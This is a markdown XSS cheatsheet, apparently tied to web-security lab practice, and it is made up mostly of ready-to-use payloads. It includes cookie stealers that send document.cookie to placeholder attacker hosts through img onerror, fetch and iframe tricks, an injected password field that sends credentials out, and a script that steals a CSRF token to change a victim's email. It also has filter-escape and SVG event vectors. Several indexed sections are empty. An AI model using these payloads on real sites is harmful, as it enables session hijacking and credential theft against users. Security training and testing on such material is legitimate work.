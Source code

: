 # XSS - CHEATSHEET + LABS

## Index
- [Walkthrough - Most Important Labs](#walkthrough---most-important-labs)
- [POC-COOKIE-STEALER](#poc-cookie-stealer)
- [GENERIC & POC PAYLOADS](#generic-payloads-poc)
- [COOKIE-STEALER](#cookie-stealer)
- [DATA-STEALER](#data-stealer)
- [BYPASS-RESTRICTIONS](#bypass-restrictions)
- [BYPASS-CPS](#bypass-cps)
- [SVG-TAGS](#svg-tags)
- [CUSTOM-TAGS](#custom-tags)
- [CANONICAL-TAGS](#canonical-tags)
- [FIND TAGS AND EVENTS ALLOWED](#find-tags-and-events-allowed)
- [ANGULAR JS](#angular-js)


## Walkthrough - Most Important Labs

- [1]()
- [2]()
- [3]()
- [4]()


## CHEATSHEET

#### POC-COOKIE-STEALER

> 🧪 POC of cookie stealer in your browser: 🧪

 In web browser → DevTools → Console add a test cookie

```js
document.cookie = "cookieTest=STEAL-ME-PLS";
```

![Screenshot1](/04-Screenshots/poc1.png)

> Find an XSS vulnerability and inject a cookie-exfiltration payload targeting a controlled collaborator endpoint.

![Screenshot2](/04-Screenshots/poc2.png)

![Screenshot3](/04-Screenshots/poc3.png)

Repeat the same procedure with the target victim


#### GENERIC-PAYLOADS-POC
```js
<script>alert(1)</script>
<img src=0 onerror=alert(0)>
<img src=x onerror="&#x61;lert(1)">
<img src=x onerror="#00000000000058;alert(1)">
' - alert(1) - '
' + alert(1) + '
javascript:alert(0)

```

#### COOKIE-STEALER
```js
<img src=0 onerror="new Image().src='http://<IP>/?cookie='+btoa(document.cookie)">

<img src=0 onerror="fetch('http://<IP>/?cookie='+btoa(document.cookie))">

<iframe src="<IP>/?cookie='+btoa(document.cookie))" onload=<img src=1 onerror=alert(1)> hidden="hidden"</iframe>

<script>fetch(`https://<BURP-COLAB>.net`, {method: ‘POST’,mode: ‘no-cors’,body:document.cookie});</script>
<script>fetch(`https://<EXPLOIT-SV>.net`, {method: ‘POST’,mode: ‘no-cors’,body:document.cookie});</script>


```

#### DATA-STEALER
```js
// steal creds + cors bypass 
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://IP>',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
```js
 // steal csrf token + cors bypass
 <script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```


#### BYPASS-RESTRICTIONS
```js
// -> escape ' with \
\'<script>alert(1)</script>
// -> escape \ with other \ and escape ' with \
\\'<script>alert(1)</script>
// -> 
</script><script>alert(1)</script>

```

#### BYPASS-CPS
```js

```


#### SVG-TAGS
```js

<svg><animateTransform onbegin=alert(0)>

<svg><a><animate attributeName= href values=javascript:alert(0) /><text x=30 y=30>Click me!</a>

```


#### CANONICAL-TAGS
```js

```


#### CUSTOM-TAGS
```js

```

#### FIND-TAGS-AND-EVENTS-ALLOWED




#### ANGULAR-JS
```js


```
